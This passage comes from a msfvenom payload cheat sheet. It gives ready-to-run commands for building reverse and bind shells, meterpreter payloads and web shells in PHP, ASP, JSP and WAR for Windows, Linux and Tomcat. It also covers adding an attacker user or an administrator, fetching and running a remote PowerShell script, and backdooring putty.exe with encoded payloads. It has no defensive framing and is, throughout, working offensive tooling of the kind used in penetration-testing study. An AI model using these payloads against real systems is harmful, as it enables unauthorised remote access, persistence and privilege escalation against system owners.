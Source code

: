		VBS:  msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.119.120 LPORT=4444 -e x86/shikata_ga_nai -f vbs
		Hidden/Restricted Bind Shell:  msfvenom -p windows/shell_hidden_bind_tcp ahost=192.168.1.2 lport=4321 -f exe > file.exe
		Other Actions:
			Create User:  msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
			Execute Command:
				msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
				msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
		Techniques:
			Prepend Migrate Payload (for stability):  msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.2 lport=1234 prependmigrateprocess=explorer.exe prependmigrate=true -f exe > shell.exe
			Inject into Legit Executable:  msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 lport=4444 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX.exe
	Linux:
		Reverse Shell:
			msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
			msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
		Bind Shell:
			msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
	Web:
		PHP:
			msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
			cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
		ASP/x:
			msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
			msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
		JSP:    msfvenom -a x86 --platform windows -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=8080 -f raw; use exploit/multi/handler; set PAYLOAD java/jsp_shell_reverse_tcp
			msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
		WAR (Tomcat):  msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Attack box IP] LPORT=4444 -f war > /root/Desktop/shell.war
	Script Language:
		Perl:  msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
		Python:  msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
		Bash:  msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
					
